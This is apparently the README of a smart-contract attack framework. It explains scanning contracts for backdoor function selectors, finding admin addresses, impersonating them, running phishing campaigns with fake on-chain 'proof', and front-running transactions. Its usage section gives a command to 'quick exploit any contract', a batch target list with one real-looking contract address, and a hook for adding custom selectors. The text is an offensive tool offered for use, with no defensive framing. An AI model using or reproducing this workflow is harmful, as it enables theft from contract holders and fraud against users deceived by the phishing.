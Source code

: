## How It Works

### Step 1: Detection
The framework automatically scans for common backdoor patterns:
- `execute(address,bytes)` - 0x78e111f6
- `adminCall(address,bytes)` - 0x9e8c708e
- `upgradeTo(address)` - 0x3659cfe6
- `recover(address,uint256)` - 0xae169a50

### Step 2: Privilege Discovery
Finds authorized addresses by:
- Checking storage slots 0-2
- Looking for owner/admin/controller patterns
- Analyzing transaction history

### Step 3: Exploitation
1. Deploys fake contract
2. Impersonates privileged address
3. Uses backdoor to create fake legitimacy
4. Generates phishing campaign

### Step 4: Attack Execution
- Technical: Direct backdoor exploitation
- Social: Phishing with on-chain "proof"
- MEV: Front-running legitimate transactions

## Example Usage

### Quick Exploit Any Contract
```javascript
// Just provide the address
npx hardhat run scripts/quick_exploit.js --network localhost 0xTARGET_ADDRESS
```

### Scan Multiple Contracts
Edit `batch_exploit.js`:
```javascript
const targets = [
  "0xA69babEF1cA67A37Ffaf7a485DfFF3382056e78C",
  "0xYOUR_TARGET_1",
  "0xYOUR_TARGET_2",
  // Add more...
];
```

### Custom Backdoor Patterns
Add to `universal_backdoor_scanner.js`:
```javascript
BACKDOOR_SELECTORS.push({
  selector: "0xYOUR_SELECTOR",
  name: "customBackdoor(address,bytes)",
  params: ["address", "bytes"]
});
```
